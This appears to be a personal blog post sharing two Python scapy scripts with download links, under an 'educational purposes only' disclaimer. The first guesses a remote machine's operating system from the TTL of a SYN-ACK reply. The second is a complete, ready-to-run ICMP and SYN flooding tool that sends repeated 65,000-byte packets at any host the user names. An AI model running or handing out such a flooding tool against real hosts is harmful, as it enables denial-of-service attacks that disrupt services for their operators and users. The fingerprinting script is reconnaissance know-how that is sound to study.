 ```yaml
---
title: Tools
date: 2024-01-01 14:00:00 +0300
categories: [scripts]
tag: [scripts,python]
---
```


# Disclamer: All the scripts i write are for educational purposes only.

### fingerprinter.py 
### a simple python script that uses ttl from tcp packet to detrmine the os of a machine.
### ![image](https://h0t0.github.io/assets/img/ttl.jpg)
### Example: `python3 fingerprinter.py -H IP -sP 5555 -dP 21`

```python
from scapy.all import *
import argparse


def argument_parser():
    """Allow user to specify target host and port."""
    parser = argparse.ArgumentParser(description="Basic OS detection tool.")
    parser.add_argument("-H", "--host", help="Host IP address")
    parser.add_argument("-sP", "--sendport",help="sender port'")
    parser.add_argument("-dP", "--destport",help="destination port'")

    var_args = vars(parser.parse_args())  
    return var_args

def fingerprint(target: str, sport0: int, dport0: int):
	seq=100
	ip = IP(dst=target)
	tcp= TCP(sport= sport0, dport= dport0, flags="S", seq= seq)

	packet= ip/tcp
	synack_packet = sr1(packet ,verbose=0)
	#synack_packet.show()
	if synack_packet.ttl == 128:
		return "Windows"
	elif synack_packet.ttl == 64:
		return "Linux"

	
'''
ip= str(input("Enter the target ip: "))
sendp= int(input("Enter Sending Port: "))
destp= int(input("Enter destination Port: "))
'''

if __name__ == "__main__":
	try:
		user_args = argument_parser()
		host = str(user_args["host"])
		sport = int(user_args["sendport"])
		dport = int(user_args["destport"])
		print(f"The Host {host} OS is " + fingerprint(host, sport, dport))
	except AttributeError:
		print("Error. Please provide the command-line arguments before running.")
```
#### **download the script:** [fingerprinter.py]

[fingerprinter.py]:{{https://github.com/h0t0/h0t0.github.io}}/assets/files/fingerprinter.py

--------
### icmp_flood.py
### a simple icmp/syn flooding python script using scapy library.
### Example: `python3 icmp_flood.py -H IP -c 100`

```python
from scapy.all import *
import argparse


def argument_parser():
    """Allow user to specify target host and port."""
    parser = argparse.ArgumentParser(description="Basic SYN , ICMP flood script.")
    parser.add_argument("-H", "--host", help="Host IP address")
    parser.add_argument("-c", "--cycle", help="select how many times the packet is sent")

    var_args = vars(parser.parse_args())  # Convert argument namespace to dictionary
    print(var_args)
    return var_args


def icmp_flood(target: str , cycle: int, payload: int = 65000):
	ip = IP(dst=target)
	icmp = ICMP()
	raw = Raw(b"X" * payload)
	packet = ip / icmp / raw
	send(packet, count=cycle, verbose=0)
	print('send_ping(): Sent ' + str(cycle) + ' pings of ' + str(payload) + ' size to ' + target)


def syn_flood(target: str, cycle: int, dport: int,  payload: int = 65000):
	ip = IP(dst=target)
	tcp = TCP(dport= dport, flags= "S")
	raw = Raw(b"X" * payload)
	packet = ip / tcp / raw
	send(packet, count=cycle, verbose=0)
	print('send_syn(): Sent ' + str(cycle) + ' packets of ' + str(payload) + ' size to ' + target)


if __name__ == "__main__":
	try:
		user_args = argument_parser()
		host = str(user_args["host"])
		cycle = int(user_args["cycle"])

		flood_type = input("ICMP or SYN flood? ")

		if flood_type.lower() == "icmp": 
			icmp_flood(host, cycle)
		
		elif flood_type.lower() == "syn":
			dport= int(input("Enter Destination port: "))
			syn_flood(host, cycle, dport)
	
	except AttributeError:
		print("Error. Please provide the command-line arguments before running.")
```
#### **download the script** [icmp_flood.py]

[icmp_flood.py]:{{https://github.com/h0t0/h0t0.github.io}}/assets/files/icmp_flood.py
